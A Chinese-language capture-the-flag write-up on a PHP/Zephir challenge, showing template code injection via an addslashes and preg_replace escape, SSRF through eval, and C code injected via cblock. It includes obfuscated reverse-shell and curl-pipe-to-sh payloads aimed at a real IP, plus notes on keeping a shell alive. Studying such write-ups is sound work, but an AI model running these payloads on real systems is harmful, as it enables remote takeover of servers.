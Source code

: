 ```yaml
---
archive: CTF
tags: 
  - SSRF
  - 代码注入
Date: 2023/1/10
---
```


题目环境：
php7.4 + Zephir

用户输入一个链接，然后通过以下模板文件生成一个访问类。
```php
namespace {namespace};
class {class}{
    public function getURL(){
        return "{base64url}";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "{url}");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

使用了 `preg_replace` 进行模板关键字的替换，主要逻辑：
```php
$zep_file = preg_replace('/(.*)\{namespace\}(.*)/is', '${1}'.$namespace.'${2}', $tmpl);
$zep_file = preg_replace('/(.*)\{class\}(.*)/is', '${1}'.$class.'${2}', $zep_file);
$zep_file = preg_replace('/(.*)\{base64url\}(.*)/is', '${1}'.base64_encode($url).'${2}', $zep_file);
$zep_file = preg_replace('/(.*)\{url\}(.*)/is', '${1}'.$url.'${2}', $zep_file);
```

其中只有 `url` 完全可控。WAF对于 `url` 进行了一次 `addslashes` 转义，并且在调用 `test` 函数之前会调用 `getURL` 然后 `base64decode` 检查 url 是否出现 `[a-zA-Z0-9_\/\.\:]` 之外的非法字符。

`bot.php` 读取模板文件内容并把它通过 [zephir](https://github.com/zephir-lang/zephir) 编译成 so 文件供 php 脚本调用。然后调用命令行执行 php 脚本。
```php
<?php
if (class_exists('\\{namespace}\\{class}')) {
    \$magic_methods = ['__construct', '__destruct', '__call', '__callStatic', '__get', '__set', '__isset', '__unset', '__sleep', '__wakeup', '__toString', '__invoke', '__set_state', '__clone', '__debugInfo','__serialize','__unserialize'];
    foreach (get_class_methods('\\{namespace}\\{class}') as \$method) {
        if (in_array(\$method, \$magic_methods)) {
            die('Magic method ' . \$method . ' is not allowed');
        }
    }
    \$c = new \\{namespace}\\{class};
    \$url = base64_decode(\$c->getURL());
    if (preg_match('/[^a-zA-Z0-9_\/\.\:]/', \$url)) {
        die('Invalid characters in URL');
    }
    echo \$c->test();

} else {
    echo 'Class \\{namespace}\\{class} not found';
}
?>
```

Zephir 主要流程是将 php 代码生成 c 代码再编译得到 so 文件。

## `\` 绕过

使用 `\"` 经过`addslashes` + `preg_replace` 后会变成 `\\"` 从而逃出引号。

```php
<?php
$url = "\(";
$url = addslashes($url);
echo $url;
$url2 = preg_replace('/\{url\}/', $url, "{url}");
echo $url2;
// output:
// \\(
// \(
```

构造：
```
https://store.steampowered.com/app\");}}
payload
function foo(){if false{var bar=0;//
```

**使用 `${2}` ?**
```
https://store.steampowered.com/app${2}
payload/*
```

php模板会变成：
```php
namespace Admin;

class Simple{
    public function getURL(){
        return "base64";
    }
    public function test(){
        var ch = curl_init();
        curl_setopt(ch, CURLOPT_URL, "https://store.steampowered.com/app");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
payload/*");
        curl_setopt(ch, CURLOPT_HEADER, 0);
        curl_exec(ch);
        curl_close(ch);
        return true;
    }
}
```

## 利用

### SSRF

php 的构造函数可以和类同名，在创建类实例时自动调用。如果存在 `__construct` 函数便会覆盖这个同名构造函数。

因此可以构造一个同名构造函数进行调用。

```
http://xxx\\"}
public function <classname>(){
	payload
var ch=0;//");
```

由于 zephir 自己的语言能力较弱，所以考虑直接使用 eval 执行 php 代码，然后用 php-curl 构造 ssrf 数据包。

关键 payload：[from](https://github.com/wupco/rwctf2023-ASTLIBRA/blob/main/exploit.py)
```
payload = 'http;Lyo;$bd = base64_decode($this->getURL()); $bd = $bd[5].$bd[6].$bd[7].$bd; eval(base64_decode($bd));//\\");} public function test123456(){ eval(base64_decode(this->getURL())); var ch = curl_init();//%s' % code.decode()
```

![](https://image.silente.top/img/p2.png)

### cblock

`secure.patch` 中有一个 fix 注释掉了 cblock 内容，翻 Zephir github 才知道它其实[支持](https://github.com/zephir-lang/zephir/issues/654)使用 cblock 内嵌 c 代码，（但是官方文档里并没有相关的指南hh）

类似于这种例子：
```php
namespace Testcurl;
%{
#include <stdio.h>
#include <curl/curl.h>
}%
class Simple
{
    public static function version() -> string
    {
        string ver="";
        %{
            ZVAL_STRING(ver, curl_version(), 1);
        }%
        return ver;
    }
    public static function getUrlContent(string! url)
    {
        %{
            CURL *curl;
            CURLcode res;
            curl = curl_easy_init();
            if(curl) {
              curl_easy_setopt(curl, CURLOPT_URL, Z_STRVAL_P(url));
              curl_easy_setopt(curl, CURLOPT_FOLLOWLOCATION, 1L);
              res = curl_easy_perform(curl);
              curl_easy_cleanup(curl);
            }
        }%
    }
}
```

而进一步翻阅源码可以知道 Zephir 在解析 cblock 时分为了全局域和函数域两个步骤，`secure.patch` 所在的 `Library/StatementsBlock.php` 仅仅对应了对于函数域的解析，然后对于全局域的解析是在 `Library/CompilerFile.php`，并没有被ban掉，所以可以在全局域嵌入 c 代码。

形如：
```
https://store.steampowered.com/app\");}}
%{
payload
}%
function foo(){if false {var bar=0;//
```

1. 劫持宏反弹shell

查看 Zephir 生成的 C 语言代码，可以看到在 `getURL` 那里调用了一个 Zend API： `RETURN_STRING`，重定义劫持宏达成命令执行。

```
https://store.steampowered.com/app\");}}
%{
#define A bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjE0Mi4xMDQuNzgvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}'
#define _A(str) _TMP(str)
#define _TMP(str) #str
#define RETURN_STRING(a) system(_A(A))
}%
function foo(){if false {var bar=0;//
```

2. `__attribute__`
GNC C 特有的一个机制，可以设置函数属性（Function Attribute ）、变量属性（Variable Attribute ）和类型属性（Type Attribute ）。

```
https://store.steampowered.com/app\");}}
%{
__attribute__((constructor)) static void beforeFunction() {
char s[] = {0x63,0x75,0x72,0x6c,0x20,0x38,0x2e,0x31,0x34,0x32,0x2e,0x31,0x30,0x34,0x2e,0x37,0x38,0x3a,0x39,0x30,0x30,0x31,0x7c,0x73,
              0x68, 0x00};
        system(s);
};
}%
function a(){if false{var ch=0;//
```

### 维持

在执行 `bot.php` 时会加入一个 `timeout 10` 参数，需要获得一个持久的 shell。

经过尝试发现可以在弹的shell里面再弹一次shell，它就只会关闭第二个shell，第一个 shell 就不会 exit，不是很懂。。。

## Ref
- r3
- https://github.com/wupco/rwctf2023-ASTLIBRA
- [Zephir](https://github.com/zephir-lang/zephir)
- [Zend API](https://php.golaravel.com/internals2.ze1.zendapi.html)